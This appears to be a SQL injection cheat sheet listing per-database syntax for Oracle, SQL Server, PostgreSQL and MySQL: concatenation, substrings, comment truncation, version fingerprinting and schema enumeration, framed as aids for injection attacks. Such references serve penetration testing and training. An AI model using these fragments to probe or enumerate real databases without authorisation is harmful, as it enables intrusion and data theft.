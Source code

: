 # SQL Injection Cheatsheet

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'  <br>
**Microsoft** :: 'foo'+'bar'
**PostgreSQL** :: 'foo'||'bar'
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]
**MySQL** :: CONCAT('foo','bar')

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)
**Microsoft** :: SUBSTRING('foobar', 4, 2)
**PostgreSQL** :: SUBSTRING('foobar', 4, 2)
**MySQL** :: SUBSTRING('foobar', 4, 2)

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment
**Microsoft** :: --comment or /*comment*/
**PostgreSQL** :: --comment or /*comment*/
**MySQL**	:: #comment or -- comment or /*comment*/ [Note the space after the double dash]

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version or SELECT version FROM v$instance
**Microsoft** :: SELECT @@version
**PostgreSQL** :: SELECT version()
**MySQL** :: SELECT @@version

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables or SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
**Microsoft** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
**PostgreSQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
**MySQL** :: SELECT * FROM information_schema.tables or SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

